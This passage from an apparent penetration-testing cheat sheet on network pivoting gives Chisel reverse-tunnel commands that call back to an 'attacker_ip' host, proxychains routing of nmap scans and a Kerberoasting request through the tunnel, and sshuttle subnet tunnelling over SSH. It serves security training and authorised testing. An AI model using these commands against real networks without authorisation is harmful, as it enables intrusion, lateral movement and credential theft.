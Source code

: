 ### 2. Chisel Client (Pivot Machine)
```bash
# Basic SOCKS proxy
./chisel client attacker_ip:8000 R:9050:socks

# With authentication
./chisel client --auth user:pass attacker_ip:8000 R:9050:socks

# Port forwarding
./chisel client attacker_ip:8000 R:3389:192.168.1.10:3389

# Multiple forwards
./chisel client attacker_ip:8000 R:9050:socks R:3389:192.168.1.10:3389
```

### 3. Using Chisel Tunnel
```bash
# Update proxychains for chisel SOCKS
echo "socks5 127.0.0.1 9050" >> /etc/proxychains4.conf

# Use through proxychains
proxychains nmap -sT -Pn 192.168.1.0/24
proxychains GetUserSPNs.py DOMAIN/user:password -dc-ip 192.168.1.10 -request
```

## Sshuttle - VPN over SSH

### 1. Basic Sshuttle Usage
```bash
# Install sshuttle
sudo apt install sshuttle

# Tunnel entire subnet
sshuttle -r root@pivot_server 192.168.1.0/24

# Multiple subnets
sshuttle -r user@pivot_server 192.168.1.0/24 10.10.10.0/24

# With DNS forwarding
sshuttle -r user@pivot --dns 192.168.1.0/24
```

### 2. Advanced Sshuttle Options
```bash
# Auto-detect subnets
sshuttle -r user@pivot --auto-nets

# SSH key authentication
sshuttle -r user@pivot --ssh-cmd "ssh -i /path/to/key" 192.168.1.0/24

# Specific ports only
sshuttle -r user@pivot --to-ns=8.8.8.8 192.168.1.0/24

# Exclude certain IPs
sshuttle -r user@pivot -x 192.168.1.1 192.168.1.0/24
```
